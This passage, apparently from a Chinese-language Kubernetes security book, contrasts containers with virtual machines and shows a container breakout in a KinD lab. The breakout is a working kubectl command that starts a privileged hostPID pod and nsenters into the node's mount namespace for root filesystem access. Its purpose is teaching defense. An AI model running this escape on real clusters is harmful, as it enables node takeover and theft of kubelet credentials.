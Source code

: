 相比之下，虚拟机就像其名称所示，是一个完整的虚拟系统。它模拟自己的硬件，有独立的内核等。虚拟机监视器为虚拟机提供了从硅层到上层的隔离，而与此相比，在节点上的每个容器之间几乎没有隔离。

注意

有一些容器技术可以在自己的虚拟机上运行容器。但容器仍然只是一个进程。

当容器没有运行时，它们只是一个"tarball of tarballs"，其中文件系统的每一层都存储在一个文件中。镜像仍然存储在主机系统上，或者之前容器曾经运行或被拉取的多个主机系统上。

注意

"tarball"是由**tar** Unix 命令创建的文件。它也可以被压缩。

另一方面，虚拟机有自己的虚拟磁盘，存储整个操作系统。虽然有一些非常轻量级的虚拟机技术，但虚拟机和容器之间的大小差异通常是数量级的。

虽然有些人将容器称为轻量级虚拟机，但事实并非如此。它们的隔离方式不同，并且需要更多关注它们在节点上的运行细节。

从这一部分，你可能会认为我们在试图说容器不安全。事实恰恰相反。保护 Kubernetes 集群和其中运行的容器需要注意细节，并且需要理解容器与虚拟机的不同之处。由于很多人都了解虚拟机，因此很容易尝试将其与容器进行比较，但这样做会让你处于不利地位，因为它们是非常不同的技术。

一旦您了解了默认配置的限制和由此带来的潜在危险，您就可以纠正这些“问题”。

## 容器越狱

容器越狱是指您的容器进程获得对底层节点的访问权限。一旦在节点上，攻击者现在可以访问所有其他的 pod 和环境中节点的任何功能。越狱也可能是将本地文件系统挂载到您的容器中。来自[`securekubernetes.com`](https://securekubernetes.com)的一个例子，最初由 VMware 的 Duffie Cooley 指出，使用一个容器来挂载本地文件系统。在 KinD 集群上运行这个命令会打开对节点文件系统的读写权限：

kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'

如果你看不到命令提示符，请尝试按 Enter 键。

上面代码中的**run**命令启动了一个容器，并添加了一个关键选项**hostPID: true**，允许容器共享主机的进程命名空间。您可能会看到一些其他选项，比如**–mount**和一个将**privileged**设置为**true**的安全上下文设置。所有这些选项的组合将允许我们写入主机的文件系统。

现在你在容器中，执行**ls**命令查看文件系统。注意提示符是**root@r00t:/#**，确认你在容器中而不是在主机上：

root@r00t:/# ls

**bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var**

为了证明我们已经将主机的文件系统映射到我们的容器中，创建一个名为**this is from a container**的文件，然后退出容器：

root@r00t:/# touch this_is_from_a_container

root@r00t:/# 退出

最后，让我们查看主机的文件系统，看看容器是否创建了文件。由于我们正在运行 KinD，只有一个工作节点，我们需要使用 Docker **exec**进入工作节点。如果您正在使用本书中的 KinD 集群，工作节点被称为**cluster01-worker**：

docker exec -ti cluster01-worker ls /

**bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  this_is_from_a_container  tmp  usr  var**

在这个例子中，运行了一个容器，挂载了本地文件系统。在 pod 内部，创建了**this_is_from_a_container**文件。退出 pod 并进入节点容器后，文件就在那里。一旦攻击者可以访问节点的文件系统，他们也可以访问 kubelet 的凭据，这可能会打开整个集群。
